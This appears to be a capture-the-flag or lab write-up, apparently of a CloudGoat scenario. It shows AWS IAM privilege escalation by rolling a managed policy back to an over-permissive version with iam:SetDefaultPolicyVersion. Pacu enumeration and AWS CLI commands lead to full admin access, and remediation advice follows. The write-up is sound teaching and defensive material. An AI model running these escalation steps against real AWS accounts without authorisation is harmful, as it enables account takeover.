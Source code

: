 
title: "Privilege Escalation via iam:SetDefaultPolicyVersion (Rollback Attack)"
description: "Escalating AWS IAM privileges by reverting to an older, over-permissive policy version using iam:SetDefaultPolicyVersion."

# 🚀 Privilege Escalation via `iam:SetDefaultPolicyVersion` (Rollback Attack)

## 📝 TL;DR

An IAM user with **`iam:SetDefaultPolicyVersion`** can escalate privileges by reverting a policy to a **previous version** that contains **over-permissive access** (e.g., `AdministratorAccess`).  
We identify such a version (`v3`), and simply run `set-default-policy-version` to take over the account.

---

We start with some credentials for an AWS IAM user. The keys have been redacted for obvious reasons:

```bash
aws configure --profile raynor
```

Once the credentials are set, I fire up Pacu to see what kind of access I have:

```jsx
Pacu (raynor:No Keys Set) > import_keys raynor
Imported keys as "imported-raynor"
```

Now time to enumerate:

```jsx
Pacu (raynor:imported-raynor) > run iam__enum_permissions
```

Then confirm identity and scope:

```jsx
Pacu (raynor:imported-raynor) > whoami
```

We're operating as an IAM user:

- **UserName:** `raynor-cgidum7opd03zq`
- **Account ID:** `727671863602`
- **Policy Attached:** `cg-raynor-policy-cgidum7opd03zq`

### ✅ We Have: `iam:SetDefaultPolicyVersion`

This single permission is a **golden ticket** for privilege escalation. Here’s why 👇

---

## 🔓 What is a Rollback Attack?

AWS IAM policies support **up to 5 versions**, but only **one version is active** at a time — the “default.”

If an older version contains **elevated permissions** (like `AdministratorAccess`), and still exists, we can simply **roll back** to it using:

```
iam:SetDefaultPolicyVersion
```

No need to create a new policy or edit anything — we just **activate** an older version.

---

## 🧠 Enumeration Phase

We dig deeper:

```jsx
Pacu > run iam__enum_users_roles_policies_groups
```

This returns:

- 4 Users
- 9 Roles
- 4 Policies
- 0 Groups

We use the AWS CLI to list policies:

```bash
aws iam list-policies --scope All --profile raynor
```

Locate the target:

```json
{
    "PolicyName": "cg-raynor-policy-cgidum7opd03zq",
    "Arn": "arn:aws:iam::727671863602:policy/cg-raynor-policy-cgidum7opd03zq",
    "DefaultVersionId": "v1",
    ...
}
```

Now we list the policy versions:

```bash
aws iam list-policy-versions --policy-arn arn:aws:iam::727671863602:policy/cg-raynor-policy-cgidum7opd03zq --profile raynor
```

We find 5 versions:

- **v1** (default) — Basic read-only + `SetDefaultPolicyVersion`
- **v2** — Full deny (unless coming from specific IPs)
- **v3** — ⭐ Full `Action: "*"` access (root-level access)
- **v4** — Conditional `iam:Get*` actions
- **v5** — Some S3 read permissions

---

## 🧨 The Escalation

The most permissive version is clearly `v3`, so we activate it:

```bash
aws iam set-default-policy-version   --policy-arn arn:aws:iam::727671863602:policy/cg-raynor-policy-cgidum7opd03zq   --version-id v3   --profile raynor
```

Boom 💥 — the IAM policy now grants **full admin access** to the account.

---

## ✅ Confirm the Rollback Worked

```bash
aws iam get-policy   --policy-arn arn:aws:iam::727671863602:policy/cg-raynor-policy-cgidum7opd03zq   --profile raynor
```

You should see:

```json
"DefaultVersionId": "v3"
```

That’s it. We’ve successfully escalated privileges in AWS by rolling back to a previously uploaded over-permissive policy using nothing more than `iam:SetDefaultPolicyVersion`.

---

## 🛡️ Remediation

- **Delete old IAM policy versions** that are no longer in use:
  ```bash
  aws iam delete-policy-version     --policy-arn <POLICY_ARN>     --version-id <VERSION_ID>
  ```

- **Restrict access** to `iam:SetDefaultPolicyVersion` to only trusted admin roles.

- **Enable CloudTrail monitoring** and create alerts for:
  - `iam:SetDefaultPolicyVersion`
  - `iam:CreatePolicyVersion`

- Consider **automated detection** for policies that contain:
  - `Action: "*"`
  - `Resource: "*"`
  - or any **inline policies** with overly broad permissions.

- Implement **least privilege** across all IAM roles and users — revisit periodically.
